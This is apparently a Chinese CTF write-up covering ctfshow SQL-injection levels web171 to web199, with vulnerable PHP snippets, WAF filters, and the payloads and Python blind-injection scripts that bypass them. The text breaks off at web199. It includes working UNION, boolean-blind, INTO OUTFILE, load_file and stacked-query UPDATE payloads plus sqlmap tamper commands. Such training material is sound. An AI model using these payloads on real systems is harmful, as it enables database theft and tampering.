


## 写在前面
emmmm，之前的专题还没搞完，又来搞sql注入了，主要最近想挖sql注入的洞，于是现在学习一下。
——KonDream 2021-12-7 19:23

## web171（无过滤）
```sql
//拼接sql语句查找指定ID用户
$sql = "select username,password from user where username !='flag' and id = '".$_GET['id']."' limit 1;";
```
没有任何过滤，想法就是闭合单引号然后执行想要的sql语句
测试：


回显不同说明存在sql注入

说明是3列，接下来常规操作，爆库名、表名、字段

```sql
get_database = "1'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()-- -"

get_table = "1'union select 1,group_concat(column_name),3 from information_schema.columns where table_name='ctfshow_user'-- -"

get_content = "1'union select 1,group_concat(password),3 from ctfshow_user where username='flag'-- -"
```
## web172（无过滤，替换返回值）
```sql
//拼接sql语句查找指定ID用户
$sql = "select username,password from ctfshow_user2 where username !='flag' and id = '".$_GET['id']."' limit 1;";

//检查结果是否有flag
    if($row->username!=='flag'){
      $ret['msg']='查询成功';
    }
```
这个题返回结果不可以有flag，在这个题中flag是用户名，其对应的密码就是我们要的答案，那怎么输出密码呢？一种方法是不返回用户名flag，只返回密码，
payload：1'union select 1,password from ctfshow_user2 where username='flag'-- -

另一种是对用户名flag进行编码，比如常见的base64，这样也避免了flag出现
payload：1'union select to_base64(username),to_base64(password) from ctfshow_user2 where username='flag'-- -


## web173（无过滤，替换返回值）
```sql
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user3 where username !='flag' and id = '".$_GET['id']."' limit 1;";

//检查结果是否有flag
    if(!preg_match('/flag/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```
对执行结果进行json编码，不能出现flag，那么解题思路同上
payload：1'union select id,1,password from ctfshow_user3 where username='flag' -- -


## web174（无过滤，替换返回值）
```sql
//拼接sql语句查找指定ID用户
$sql = "select username,password from ctfshow_user4 where username !='flag' and id = '".$_GET['id']."' limit 1;";

//检查结果是否有flag
    if(!preg_match('/flag|[0-9]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```
这个题返回结果中不可以有数字，而flag中一定会有数字，仔细想想可以把flag中的数字用其他字符替换掉，比如将0-9用A-J替换，用大写字母的原因是和flag中的小写字母区别开，防止最后还原的时候出现错误
payload：1'union select 'a' ,replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(password, '0', 'A'), '1', 'B'), '2', 'C'), '3', 'D'), '4', 'E'), '5', 'F'), '6', 'G'), '7', 'H'), '8', 'I'), '9', 'J')from ctfshow_user4 where username='flag' -- -

flag还原脚本：

```python
'''
Author: KonDream
Date: 2021-12-07 20:25:17
LastEditors:  KonDream
LastEditTime: 2021-12-07 20:29:23
Description:  sql174
'''

payload = "replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(password, '0', 'A'), '1', 'B'), '2', 'C'), '3', 'D'), '4', 'E'), '5', 'F'), '6', 'G'), '7', 'H'), '8', 'I'), '9', 'J')"

to_replace = 'ctfshow{cAdIbFBa-cBIA-EGeA-baFa-JEEGbCBeJeAd}'

for i in range(10):
    to_replace = to_replace.replace(chr(i + 65), str(i))

print(to_replace)
#ctfshow{c0d8b51a-c180-46e0-ba5a-9446b21e9e0d}
```
## web175（无过滤，导出数据到指定目录下）
```sql
//拼接sql语句查找指定ID用户
$sql = "select username,password from ctfshow_user5 where username !='flag' and id = '".$_GET['id']."' limit 1;";

//检查结果是否有flag
    if(!preg_match('/[\x00-\x7f]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```
返回结果中把ASCII值为0-127的字符都过滤了，也就是大部分字符都不允许输出了，其实用174的方法也是可以做的，但是需要替换的字符有点多，所以考虑它既然不让在当前页面回显，就让它换个地方输出，所以构造payload：1'union select username,password from ctfshow_user5 where username='flag' into outfile '/var/www/html/1.txt' -- -
将执行结果输出到1.txt中，然后访问1.txt即可看到flag
## web176（开始过滤）
```sql
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";

//对传入的参数进行了过滤
  function waf($str){
   //代码过于简单，不宜展示
  }
```
不知道过滤了啥，应该是过滤了联合查询，它说代码过于简单，直接万能密码试一下：
payload：1' or 1=1-- -
成功回显全部数据，并且没有对输出进行过滤，直接拿到flag


## web177（空格绕过 space2comment.py）
```sql
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";

//对传入的参数进行了过滤
  function waf($str){
   //代码过于简单，不宜展示
  }
```
经过测试发现1'or 1=1 -- -无回显，而1'or/**/1=1%23就有回显，猜想是过滤了空格，所以用注释符绕过空格，%23是注释符#的url编码，所以最终payload：1'union/**/select/**/id,username,password/**/from/**/ctfshow_user/**/where/**/username='flag'%23

手工注入完了尝试一下sqlmap一把梭（请大家不要直接一把梭，建议在学习过程中先手注，掌握了原理后再去使用工具)，sqlmap有自带过滤空格的脚本：space2comment.py，将空格替换为/**/
命令：sqlmap -r sql.txt --tamper "space2comment.py" -D ctfshow_web -T ctfshow_user -C password --dump

结果也是一样的，除了/**/绕过空格外，还有()，%0a，%0c等等

## web178（空格绕过 space2hash.py）
```sql
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";

//对传入的参数进行了过滤
  function waf($str){
   //代码过于简单，不宜展示
  }
```
这个题我刚开始在测过滤的时候就直接做出来了，使用1'or(1)%23使条件永真，然后就能看到flag
这样能做出来是因为过滤了/**/而没有过滤()，准确说是过滤了*，所以正常做的话，用其他姿势代替/**/
payload：1'union%0aselect%0aid,username,password%0afrom%0actfshow_user%0awhere%0ausername='flag'%23

sqlmap一把梭的话使用space2hash脚本，将空格替换成#后面加6-12个随机大小写字符再加%0a
sqlmap -r sql.txt --tamper "space2hash.py" -- dbs

## web179（空格绕过）
```sql
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";

//对传入的参数进行了过滤
  function waf($str){
   //代码过于简单，不宜展示
  }
```
非预期：1'or(1)%23直接出
预期解：过滤了%0a，但没过滤%0c
payload：1'union%0cselect%0cid,username,password%0cfrom%0cctfshow_user%0cwhere%0cusername='flag'%23


## web180（空格，注释绕过）
```sql
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";

//对传入的参数进行了过滤
  function waf($str){
   //代码过于简单，不宜展示
  }
```
非预期：1'or(1)--%0c-直接出
预期解：
还是过滤了*，%0a，应该多过滤了#，因为%23不起作用了，那么可以使用--%0c-进行绕过
payload：
5'union%0cselect%0cid,username,password%0cfrom%0cctfshow_user%0cwhere%0cusername='flag'--%0c-


## web181（空格，注释绕过）
```sql
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";

//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select/i', $str);
  }
```
非预期：
payload：1'or(1)limit%0c21,1--%0c-
这是我测试的时候试出来的，这样确实能出，但我没想明白为什么过滤了%0c却还是可以，而其他的语句就不行

很迷
啊，问过群主了，原因是后台手滑了，把\x0c敲成\0x0c了，真是给我漏了一手Orz
预期解：
已知flag在表中id都为26，那只要让查询条件id=26就行
payload：1234'or(id=26)and'a'='a
1234'or(id=26)是为了满足id=26，and'a'='a是闭合后面的单引号


## web182（空格，注释绕过）
```sql
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";

//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select|flag/i', $str);
  }
```
没错，这个题群主又手滑打错了，非预期：1'or(1)limit%0c21,1--%0c-
预期：
多过滤了flag，但是没有吊用
payload：1234'or(id=26)and'a'='a


## web183（盲注）
```sql
//拼接sql语句查找指定ID用户
  $sql = "select count(pass) from ".$_POST['tableName'].";";
  
  //对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into/i', $str);
  }
  
  //返回用户表的记录总数
      $user_count = 0;
```
这个题页面上没有输入点也没有回显点，但仔细观察就会发现，需要我们POST一个tableName，然后在user_count返回查询数，比如举个例子，根据前几个题的经验数据库应该是ctfshow_user，那么就可以

返回22，确实查到了，但怎么利用呢，考虑where，使条件可控
payload：tableName=`ctfshow_user`where`pass`regexp('ctfshow')

查到了flag的前七个字母，返回1证明确实存在，那么就可以进行盲注了，一位一位的查，最后得到答案
poc：

```python
'''
Author: KonDream
Date: 2021-12-08 00:09:13
LastEditors:  KonDream
LastEditTime: 2021-12-08 15:34:20
Description:  
'''
import requests
import string
url = "http://431214d2-96c7-435b-a473-d31a7e0d2a78.challenge.ctf.show/select-waf.php"

payload = "`ctfshow_user`where(substr(`pass`,{},1)regexp('{}'))"

string = string.ascii_lowercase + string.digits + '{-}'

ans = "ctfshow{"

for i in range(9, 46):
    for j in string:
        data = {
            'tableName' : payload.format(str(i), j)
        }
        r = requests.post(url=url, data=data)
        if "$user_count = 1;" in r.text:
            ans += j
            print(ans)
            break
```
## web184（盲注，having）
```php
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
  }
```
多过滤了where，单双引号，所以字符串不能用了，考虑使用十六进制替换字符串，having替换where
poc：
```python
'''
Author: KonDream
Date: 2021-12-08 16:08:27
LastEditors:  KonDream
LastEditTime: 2021-12-08 16:31:14
Description:  sql184 having+hex
'''
import requests
import string
import binascii

def str2hex(str):
    ans = ''
    for i in str:
        ans += (hex(ord(i)))[2:]
    return ans


url = "http://6fab4f3b-8b4d-44bb-9cf7-bb3093b3c602.challenge.ctf.show/select-waf.php"

payload = "ctfshow_user group by pass having pass like {}"

string = string.digits + string.ascii_lowercase + '{-}'

flag = 'ctfshow'

for i in range(8, 46):
    for j in string:
        data = {
            'tableName' : payload.format('0x' + str2hex(flag + j + '%'))
        }
        r = requests.post(url=url, data=data)
        if "$user_count = 1;" in r.text:
            flag += j
            print('[*] {}'.format(flag))
            break
```
## web185（盲注，突破数字）


```php
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
  }
```
过滤了数字，那么考虑联结表字段，即联结两个ctfshow_user，条件是其中一个的pass字段能匹配到某个字符，这里还用到了mysql的数字函数，即select true返回1，select true+true返回2，这样就可以突破数字限制了
poc：
```python
'''
Author: KonDream
Date: 2021-12-08 22:49:48
LastEditors:  KonDream
LastEditTime: 2021-12-08 23:23:30
Description:  
'''
import requests
import string

def hex2true(num):
    ans = 'true'
    if num == 1:
        return ans
    for i in range(num - 1):
        ans += '+true'
    return ans


url = "http://0fb72081-e57f-4bca-a32f-19f0375ccc23.challenge.ctf.show/select-waf.php"

payload = "ctfshow_user as a right join ctfshow_user as b on (substr(b.pass,{},true)regexp(char({})))"

string = string.digits + string.ascii_lowercase + '{-}'

flag = 'ctfshow'

for i in range(8, 46):
    for j in string:
        data = {
            'tableName' : payload.format(hex2true(i), hex2true(ord(j)))
        }
        r = requests.post(url=url, data=data)
        if "$user_count = 43;" in r.text:
            flag += j
            print('[*] {}'.format(flag))
            break
#[*] ctfshow{d11fa31f-1474-4468-accc-85b240934aff}
```
## web186（盲注，突破数字）
```php
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\%|\<|\>|\^|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
  }
```
上一题的姿势这个题没有过滤，所以还是可以打通的
```python
'''
Author: KonDream
Date: 2021-12-09 11:40:27
LastEditors:  KonDream
LastEditTime: 2021-12-09 11:40:28
Description:  
'''
import requests
import string

def hex2true(num):
    ans = 'true'
    if num == 1:
        return ans
    for i in range(num - 1):
        ans += '+true'
    return ans


url = "http://1e17529b-2faf-4057-90e5-078c0b0f2e5d.challenge.ctf.show/select-waf.php"

payload = "ctfshow_user as a right join ctfshow_user as b on (substr(b.pass,{},true)regexp(char({})))"

string = string.digits + string.ascii_lowercase + '{-}'

flag = 'ctfshow'

for i in range(8, 46):
    for j in string:
        data = {
            'tableName' : payload.format(hex2true(i), hex2true(ord(j)))
        }
        r = requests.post(url=url, data=data)
        if "$user_count = 43;" in r.text:
            flag += j
            print('[*] {}'.format(flag))
            break
```
## web187（md5注入：ffifdyop）
```php
//拼接sql语句查找指定ID用户
  $sql = "select count(*) from ctfshow_user where username = '$username' and password= '$password'";

    $username = $_POST['username'];
    $password = md5($_POST['password'],true);

    //只有admin可以获得flag
    if($username!='admin'){
        $ret['msg']='用户名不存在';
        die(json_encode($ret));
    }
```
题意是用户名只能为admin，密码用md5加密，那么就从密码处考虑注入，有一个特殊的字符串：ffifdyop，md5后，276f722736c95d99e921722cf9ed621c，再转成字符串：'or'6，这样就形成了永真式导致注入

查看返回请求即可得到flag

## web188（弱比较）
```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username}";

  //用户名检测
  if(preg_match('/and|or|select|from|where|union|join|sleep|benchmark|,|\(|\)|\'|\"/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==intval($password)){
      $ret['msg']='登陆成功';
      array_push($ret['data'], array('flag'=>$flag));
    }
```
观察查询语句发现username因为过滤了单双引号，只能是数字；密码检测也限制了密码只能是数字。
但是第17行有一个弱类型比较：intval($password)，因为$password是字符串，php在转为数字时会变为0，所以密码只要为0就可以满足条件。
在mysql中，当where条件为'某字段=0'时，会返回所有以字符串开头的数据，可以自己试验一下，也算是个弱类型。

用永真式也是可以的，过滤的or可以用||代替


## web189（布尔盲注）
```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username}";
  
    //用户名检测
  if(preg_match('/select|and| |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\x26|\x7c|or|into|from|where|join|sleep|benchmark/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }
```
这次密码判断不是弱类型了，提示也说了flag在/api/index.php中，通过测试发现用户名为0密码为0时返回密码错误，用户名为1密码为0时返回查询失败，观察查询语句可知用户名为0是符合条件的，所以可以根据回显不同进行布尔盲注：if(a,b,c) a是条件，满足返回b，不满足返回c
poc：
```python
'''
Author: KonDream
Date: 2021-12-09 18:49:25
LastEditors:  KonDream
LastEditTime: 2021-12-09 18:59:34
Description:  盲注189
'''

import requests
import string

url = 'http://f99c9132-a52b-4b1d-97bf-60a325a5e311.challenge.ctf.show/api/index.php'

flag = 'ctfshow'

payload = "if(load_file('/var/www/html/api/index.php')regexp('{}'),1,0)"

string = string.digits + string.ascii_lowercase + '{-}'

for i in range(8, 46):
    for j in string:
        data = {
            'username':payload.format(flag + j),
            'password':1
        }
        r = requests.post(url=url, data=data)
        if r'\u67e5\u8be2\u5931\u8d25' in r.text: #返回'查询失败'证明匹配成功
            flag += j
            print('[*] {}'.format(flag))
            break

```
## web190（布尔注入）
```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = '{$username}'";

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }
```
还是盲注，不过这次数据库表名都变了，都需要爆一下，具体解释看代码
poc：
```python
'''
Author: KonDream
Date: 2021-12-09 19:28:19
LastEditors:  KonDream
LastEditTime: 2021-12-09 20:25:18
Description:  布尔注入
'''
import requests

url = 'http://ba2f3143-2d16-4b16-a501-7909aa4ece97.challenge.ctf.show/api/'

flag = '' 
# 爆数据库名 ctfshow_fl0g,ctfshow_user
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 爆表名 id,f1ag
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'"
# 爆字段
payload = "select f1ag from ctfshow_fl0g"

for i in range(1, 46):
    # 查找ascii从32-128的所有字符
    low = 32
    high = 128
    # 二分查找 提升效率
    while True:
        mid = (low + high) >> 1
        if low == mid:  # low处对应字符即为数据库中的字符
            flag += str(chr(mid + 1))
            print('[*] {}'.format(flag))
            break

        data = {
            # 如果某个字符比如c大于chr(99),则返回1，否则返回0，根据回显不同最终确定某位置的某字符
            'username':"1' or if(ascii(substr(({}), {}, 1)) > {}, 1, 0)-- -".format(payload, i, mid),
            'password':1
        }
        r = requests.post(url=url, data=data)
        # print(r.text)
        if r'\u5bc6\u7801\u9519\u8bef' in r.text: #返回'查询失败'证明匹配成功
            low = mid # 查询成功，区间向右靠拢
        else:
            high = mid # 查询失败，区间向左靠拢
        
```
## web191（布尔注入，过滤了ascii）
```php
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```
过滤了ascii，还可以用ord，效果如下图

poc：

```python
'''
Author: KonDream
Date: 2021-12-09 20:28:24
LastEditors:  KonDream
LastEditTime: 2021-12-09 20:38:55
Description:  
'''
'''
Author: KonDream
Date: 2021-12-09 19:28:19
LastEditors:  KonDream
LastEditTime: 2021-12-09 20:27:50
Description:  布尔注入
'''
import requests

url = 'http://ffbad699-b2ff-4aa2-8d23-e4b51f811e44.challenge.ctf.show/api/'

flag = '' 
# 爆数据库名 ctfshow_fl0g,ctfshow_user
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 爆表名 id,f1ag
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'"
# 爆字段
payload = "select f1ag from ctfshow_fl0g"

for i in range(1, 46):
    # 查找ascii从32-128的所有字符
    low = 32
    high = 128
    # 二分查找 提升效率
    while True:
        mid = (low + high) >> 1
        if low == mid:  # low处对应字符即为数据库中的字符
            flag += str(chr(mid + 1))
            print('[*] {}'.format(flag))
            break

        data = {
            # 如果某个字符比如c大于chr(99),则返回1，否则返回0，根据回显不同最终确定某位置的某字符
            'username':"1' or if(ord(substr(({}), {}, 1)) > {}, 1, 0)-- -".format(payload, i, mid),
            'password':1
        }
        r = requests.post(url=url, data=data)
        # print(r.text)
        if r'\u5bc6\u7801\u9519\u8bef' in r.text: #返回'查询失败'证明匹配成功
            low = mid # 查询成功，区间向右靠拢
        else:
            high = mid # 查询失败，区间向左靠拢
        
```
## web192（布尔注入，过滤了ord）
```php
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii|ord|hex/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```
多过滤了ord，那么直接进行字符串比较，poc：
```python
'''
Author: KonDream
Date: 2021-12-09 20:45:17
LastEditors:  KonDream
LastEditTime: 2021-12-09 20:54:22
Description:  
'''
import requests

url = 'http://0e20d1b9-a6d4-495d-8889-263eeb704e1f.challenge.ctf.show/api/'

flag = '' 
# 爆数据库名 ctfshow_fl0g,ctfshow_user
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 爆表名 id,f1ag
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'"
# 爆字段
payload = "select f1ag from ctfshow_fl0g"


for i in range(1, 46):
    # 查找ascii从32-128的所有字符
    low = 32
    high = 128
    # 二分查找 提升效率
    while True:
        mid = (low + high) >> 1
        if low == mid:  # low处对应字符即为数据库中的字符
            flag += str(chr(mid + 1))
            print('[*] {}'.format(flag))
            break

        data = {
            # 如果某个字符比如c大于chr(99),则返回1，否则返回0，根据回显不同最终确定某位置的某字符
            'username':"1' or if(substr(({}), {}, 1) > '{}', 1, 0)-- -".format(payload, i, chr(mid)),
            'password':1
        }
        r = requests.post(url=url, data=data)
        # print(r.text)
        if r'\u5bc6\u7801\u9519\u8bef' in r.text: #返回'查询失败'证明匹配成功
            low = mid # 查询成功，区间向右靠拢
        else:
            high = mid # 查询失败，区间向左靠拢
```
有个尴尬就是服务器中mysql设置是大小写不敏感的，所以爆出来的数据库、表名和flag需要手动转换一下


## web193（布尔注入，过滤了substr）
```php
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii|ord|hex|substr/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```
过滤了substr，考虑组合使用left和right
```python
'''
Author: KonDream
Date: 2021-12-09 21:50:47
LastEditors:  KonDream
LastEditTime: 2021-12-09 21:55:53
Description:  
'''
import requests

url = 'http://06d98f3c-f61b-4e72-8d11-a5c0acaba6f2.challenge.ctf.show/api/'

flag = '' 
# 爆数据库名 ctfshow_flxg,ctfshow_user
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 爆表名 id,f1ag
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flxg'"
# 爆字段
payload = "select f1ag from ctfshow_flxg"


for i in range(1, 46):
    # 查找ascii从32-128的所有字符
    low = 32
    high = 128
    # 二分查找 提升效率
    while True:
        mid = (low + high) >> 1
        if low == mid:  # low处对应字符即为数据库中的字符
            flag += str(chr(mid + 1))
            print('[*] {}'.format(flag))
            break

        data = {
            #  right(left('abc', i),1); 取第i位
            'username':"1' or if(right(left(({}), {}), 1) > '{}', 1, 0)-- -".format(payload, i, chr(mid)),
            'password':1
        }
        r = requests.post(url=url, data=data)
        # print(r.text)
        if r'\u5bc6\u7801\u9519\u8bef' in r.text: #返回'查询失败'证明匹配成功
            low = mid # 查询成功，区间向右靠拢
        else:
            high = mid # 查询失败，区间向左靠拢
```

## web194（布尔注入，过滤了left、right）
```php
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii|ord|hex|substr|char|left|right|substring/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```
这个题又双叒叕把上一题的姿势过滤掉了，想了好一会，最后翻文档发现还有个mid函数，用法和substr一样
poc：
```python
'''
Author: KonDream
Date: 2021-12-09 23:43:36
LastEditors:  KonDream
LastEditTime: 2021-12-09 23:45:02
Description:  
'''
import requests

url = 'http://a889051d-cd2f-452a-aa92-ef2ff1e555b4.challenge.ctf.show/api/'

flag = '' 
# 爆数据库名 ctfshow_flxg,ctfshow_user
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 爆表名 id,f1ag
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flxg'"
# 爆字段
payload = "select f1ag from ctfshow_flxg"


for i in range(1, 46):
    # 查找ascii从32-128的所有字符
    low = 32
    high = 128
    # 二分查找 提升效率
    while True:
        mid = (low + high) >> 1
        if low == mid:  # low处对应字符即为数据库中的字符
            flag += str(chr(mid + 1))
            print('[*] {}'.format(flag))
            break

        data = {
            # 如果某个字符比如c大于chr(99),则返回1，否则返回0，根据回显不同最终确定某位置的某字符
            'username':"1' or if(mid(({}), {}, 1) > '{}', 1, 0)-- -".format(payload, i, chr(mid)),
            'password':1
        }
        r = requests.post(url=url, data=data)
        # print(r.text)
        if r'\u5bc6\u7801\u9519\u8bef' in r.text: #返回'查询失败'证明匹配成功
            low = mid # 查询成功，区间向右靠拢
        else:
            high = mid # 查询失败，区间向左靠拢
```
## web195（堆叠注入）
> 堆叠注入的使用条件十分有限，其可能受到API或者数据库引擎，又或者权限的限制只有当调用数据库函数支持执行多条sql语句时才能够使用，利用mysqli_multi_query()函数就支持多条sql语句同时执行，但实际情况中，如PHP为了防止sql注入机制，往往使用调用数据库的函数是mysqli_ query()函数，其只能执行一条语句，分号后面的内容将不会被执行，所以可以说堆叠注入的使用条件十分有限，一旦能够被使用，将可能对网站造成十分大的威胁。

作者：dawsonenjoy
链接：https://www.jianshu.com/p/c50ced83414d

```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username};";

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if(preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|\'|\"|select|union|or|and|\x26|\x7c|file|into/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
```
明示考察堆叠注入，同时需要成功登录才能获取flag，看了查询字段知道了pass字段，考虑将表中的密码改为我们想要的：payload：0;update`ctfshow_user`set`pass`=1234


## web196（堆叠注入）
```php
  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if(preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|\'|\"|select|union|or|and|\x26|\x7c|file|into/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if(strlen($username)>16){
    $ret['msg']='用户名不能超过16个字符';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
```
这题纯纯坑人，后台并没有ban select。。


## web197（堆叠注入）
```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username};";

  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if('/\*|\#|\-|\x23|\'|\"|union|or|and|\x26|\x7c|file|into|select|update|set//i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
```
通过堆叠注入知道返回逻辑是，我们输入的密码等于我们构造的sql语句执行结果。
而通过第2行知道表名是ctfshow_user，所以可以构造：1;show tables;->ctfshow_user


## web198（堆叠注入）
```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username};";

  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if('/\*|\#|\-|\x23|\'|\"|union|or|and|\x26|\x7c|file|into|select|update|set|create|drop/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
```
没有过滤，同上
## web199（堆叠注入）
```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username};";

